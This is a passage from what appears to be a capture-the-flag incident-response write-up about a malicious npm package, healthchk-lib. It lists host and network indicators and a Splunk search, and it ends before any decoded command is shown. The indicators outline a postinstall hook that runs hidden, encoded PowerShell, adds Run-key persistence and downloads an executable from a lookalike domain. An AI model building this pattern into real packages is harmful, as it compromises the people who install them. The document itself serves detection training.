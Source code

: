 | **Type** | **Value** |
| --- | --- |
| NPM Package | `healthchk-lib@1.0.1` |
| Registry Path | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| Registry Value Name | `Windows Update Monitor` |
| Registry Value Data | `powershell.exe -NoP -W Hidden -EncodedCommand <base64>` |
| Downloaded File Path | `%APPDATA%\SystemHealthUpdater.exe` |
| PowerShell Command | `Invoke-WebRequest -Uri ... -OutFile ...` |
| Process Execution | `powershell.exe -NoP -W Hidden -EncodedCommand ...` |
| Script Artifact | Found in `package.json` under `"postinstall"` |

## **Network-Based IOCs**

| **Type** | **Value** |
| --- | --- |
| Download URL | `http://global-update.wlndows.thm/SystemHealthUpdater.exe` |
| Hostname Contacted | `global-update.wlndows.thm` |
| Protocol | HTTP (unencrypted) |
| Port | 80 |
| Traffic Behavior | Outbound file download to `%APPDATA%` via PowerShell |

---

## Investigation

**1. NPM Package Detection**

```
* "healthchk-lib@1.0.1" 
| stats count by _time,host CommandLine 
| sort - count
```

<img width="1910" height="767" alt="image" src="https://github.com/user-attachments/assets/a14c2eff-4182-4cf6-97b3-d1d9d74b5273" />

- Time: 21/06/2025 10:58:27.000
- **host**: PAW-TOM
- **ParentCommandLine**: "C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npm-cli.js" install healthchk-lib@1.0.1
- **CommandLine**: C:\Windows\system32\cmd.exe /d /s /c powershell.exe -NoP -W Hidden -EncodedCommand <base64>

Decoded command:
